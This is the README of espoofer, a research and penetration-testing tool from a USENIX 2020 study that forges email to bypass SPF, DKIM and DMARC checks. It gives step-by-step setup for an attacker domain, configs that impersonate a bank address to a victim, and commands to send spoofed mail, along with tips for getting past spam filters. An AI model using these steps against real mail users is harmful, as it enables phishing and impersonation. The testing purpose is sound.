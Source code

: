 # espoofer

*espoofer* is an open-source testing tool to bypass SPF, DKIM, and DMARC authentication in email systems. It helps mail server administrators and penetration testers to check whether the target email server and client are vulnerable to email spoofing attacks or can be abused to send spoofing emails.

<!-- ![Gmail spoofing demo](images/gmail-spoofing-demo.png "espoofer demo" )
 -->
<p align="center">
<kbd>
<img src="images/gmail-spoofing-demo.png" height="300">
</kbd>
<br>Figure 1. A case of our spoofing attacks on Gmail (Fixed, <a href="https://youtu.be/xuKZpT0rsd0">Demo video</a>)
</p>

## Why build this tool?

Email spoofing is a big threat to both individuals and organizations ([Yahoo breach](https://arstechnica.com/tech-policy/2017/03/fbi-hints-that-hack-of-semi-privileged-yahoo-employee-led-to-massive-breach/), [John podesta](https://www.cbsnews.com/news/the-phishing-email-that-hacked-the-account-of-john-podesta/)). To address this problem, modern email services and websites employ authentication protocols -- SPF, DKIM, and DMARC -- to prevent email forgery. 

Our latest research shows that the implementation of those protocols suffers a number of security issues, which can be exploited to bypass SPF/DKIM/DMARC protections. Figure 1 demonstrates one of our spoofing attacks to bypass DKIM and DMARC in Gmail. For more technical details, please see our [Black Hat USA 2020 talk](https://www.blackhat.com/us-20/briefings/schedule/#you-have-no-idea-who-sent-that-email--attacks-on-email-sender-authentication-19902) (with [presentation video](https://www.youtube.com/watch?v=ar_lVqkWcHk&list=PL--A-gWJV1dJ19SyhkzklMC3C8ra1kK5-&index=5&t=30s&ab_channel=BlackHat))
 or [USENIX security 2020 paper](https://www.jianjunchen.com/publication/composition-kills-a-case-study-of-email-sender-authentication/). 

- Black Hat USA 2020 slides (PDF): [You have No Idea Who Sent that Email: 18 Attacks on Email Sender Authentication](http://i.blackhat.com/USA-20/Thursday/us-20-Chen-You-Have-No-Idea-Who-Sent-That-Email-18-Attacks-On-Email-Sender-Authentication.pdf) 
- USENIX security 2020 paper (PDF): [Composition Kills:
A Case Study of Email Sender Authentication](https://www.usenix.org/system/files/sec20fall_chen-jianjun_prepub_0.pdf)
    - [Distinguished Paper Award Winner](https://www.usenix.org/conference/usenixsecurity20/presentation/chen-jianjun)

In this repo, we summarize all test cases we found and integrate them into this tool to help administrators and security-practitioners quickly identify and locate such security issues.

<details><summary>Please use the following citation if you do scentific research (Click me).  </summary>
<p>

*Latex version:*

```tex
@inproceedings{chen-email,
author = {Jianjun Chen and Vern Paxson and Jian Jiang},
title = {Composition Kills: A Case Study of Email Sender Authentication},
booktitle = {29th {USENIX} Security Symposium ({USENIX} Security 20)},
year = {2020},
isbn = {978-1-939133-17-5},
pages = {2183--2199},
url = {https://www.usenix.org/conference/usenixsecurity20/presentation/chen-jianjun},
publisher = {{USENIX} Association},
month = aug,
}
```

*Word version:*

Jianjun Chen, Vern Paxson, and Jian Jiang. "Composition kills: A case study of email sender authentication." In 29th USENIX Security Symposium (USENIX Security 20), pp. 2183-2199. 2020.

</p>
</details>

## Installation
- Download this tool
```
git clone https://github.com/chenjj/espoofer
```

- Install dependencies
```
sudo pip3 install -r requirements.txt
```
> *Python version: Python 3 (**>=3.7**).*

## Usage
espoofer has three work modes: *server* ('s', default mode), *client* ('c') and *manual* ('m'). In *server* mode, espoofer works like a mail server to test validation in receiving services. In *client* mode, espoofer works as an email client to test validation in sending services. *Manual* mode is used for debug purposes. 

<p align="center">
<img src="images/email-authentication-flow.png" ><br>
Figure 2. Three types of attackers and their work modes
</p>

#### Server mode
To run espoofer in server mode, you need to have: 1) an IP address (`1.2.3.4`), which outgoing port 25 is not blocked by the ISP, and 2) a domain (`attack.com`). 


1. Domain configuration

- Set DKIM public key for `attack.com`

```
selector._domainkey.attacker.com TXT  "v=DKIM1; k=rsa; t=y; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDNjwdrmp/gcbKLaGQfRZk+LJ6XOWuQXkAOa/lI1En4t4sLuWiKiL6hACqMrsKQ8XfgqN76mmx4CHWn2VqVewFh7QTvshGLywWwrAJZdQ4KTlfR/2EwAlrItndijOfr2tpZRgP0nTY6saktkhQdwrk3U0SZmG7U8L9IPj7ZwPKGvQIDAQAB"
```

- Set SPF record for `attack.com`

```
attack.com TXT "v=spf1 ip4:1.2.3.4 +all"
```

2. Configure the tool in config.py

```python
config ={
	"attacker_site": b"attack.com", # attack.com
	"legitimate_site_address": b"admin@bank.com", # legitimate.com
	"victim_address": b"victim@victim.com", # victim@victim.com
	"case_id": b"server_a1", # server_a1
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

3. Run the tool to send a spoofing email

```
python3 espoofer.py
```

You can change case_id in the config.py or use `-id` option in the command line to test different cases:

```
python3 espoofer.py -id server_a1
```

#### Client mode 

To run epsoofer in client mode, you need to have an account on the target email services. This attack exploits the failure of some email services to perform sufficient validation of emails received from local MUAs. For example, `attacker@gmail.com` tries to impersonate `admin@gmail.com`. 
1. Configure the tool in config.py

```python
config ={
	"legitimate_site_address": b"admin@gmail.com",  
	"victim_address": b"victim@victim.com", 
	"case_id": b"client_a1",

	"client_mode": {
		"sending_server": ("smtp.gmail.com", 587),  # SMTP sending serve ip and port
		"username": b"attacker@gmail.com", # Your account username and password
		"password": b"your_passward_here",
	},
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

> Note: `sending_server` should be the SMTP sending server address, not the receiving server address.


2. Run the tool to send a spoofing email

```
python3 espoofer.py -m c
```

You can change case_id in the config.py and run it again, or you can use `-id` option in the command line:

```
python3 espoofer.py -m c -id client_a1
```

#### Manual mode

Here is an example of manual mode:

```
python3 espoofer.py -m m -helo attack.com -mfrom <m@attack.com> -rcptto <victim@victim.com> -data raw_msg_here -ip 127.0.0.1 -port 25
```

### Screenshots

1. A brief overview of test cases.

<p align="center">
<kbd>
<img src="images/list_caseid.png">
</kbd>
</p>

## Bugs found with this tool

* Gmail.com DMARC bypass demo video, https://youtu.be/xuKZpT0rsd0
* Outlook.com DMARC bypass video, https://youtu.be/IsWgAEbPaK0
* Yahoo.com DMARC bypass video, https://youtu.be/DRepfStOruE
* Protonmail.com DMARC bypass video, https://youtu.be/bh4_SoPniMA
* CVE-2020-12272, OpenDMARC bypass bug report, https://sourceforge.net/p/opendmarc/tickets/237/
* CVE-2019-20790, OpenDMARC and pypolicyd-spf bypass bug report, https://sourceforge.net/p/opendmarc/tickets/235/
* Mail.ru DMARC bypass bug report on HackerOne, https://hackerone.com/reports/731878

Welcome to send a pull request to file your bug report here. 

## Q&A

1. How do I know if the email has bypassed DMARC authentication successfully? 

You can check it in the Authentication-results header in the raw message headers. If the header shows `dmarc=pass`, it means the email has passed the DMARC authentication.  You can check some demos video [here](https://www.youtube.com/playlist?list=PL--A-gWJV1dJ19SyhkzklMC3C8ra1kK5-).

2. Why do emails fail to send?

There are several possible reasons if you fail to send an email: 1) your ISP blocks outgoing emails to port 25 to prevent spam. In this case, you need to ask for permission from the ISP; 2) the IP address is in the spam list of the target email services. In many cases, you resolve the problem here, https://www.spamhaus.org/lookup/ ;  3) some email services check if there is a PTR record for the sending IP, you may also need to set the PTR record to bypass this check; 4) the email cannot pass the format validation of the target email service, you may want to try a different test case. 

3. Why the email goes to the spam folder? Any way to avoid this?

Currently, espoofer focuses on bypassing SPF/DKIM/DMARC authentication and doesn't aim for spam filter bypass. But you could try to use a reputable sending IP address, domain, and benign message content to bypass the spam filter.

4. Why I send an email successfully but the email didn't show up in either inbox or spam folder?

In our prior experiences, some email services filter suspicious emails silently.

5. When testing server_a5/a6, why I cannot set specical characters like "(" in the domain?

You will need to set up your own authority DNS server, rather than use third-party DNS hosting services,  as some DNS hosting services have restrictions on setting specical characters. See [issue](https://github.com/chenjj/espoofer/issues/2#issuecomment-686918954).

## Credits

Welcome to add more test cases.



<!-- *This repo is created for the vendors to reproduce our reported issues, so this tool is not useable without additional instructions. We will update it after the affected vendors have fixed our reported bugs.*
 -->
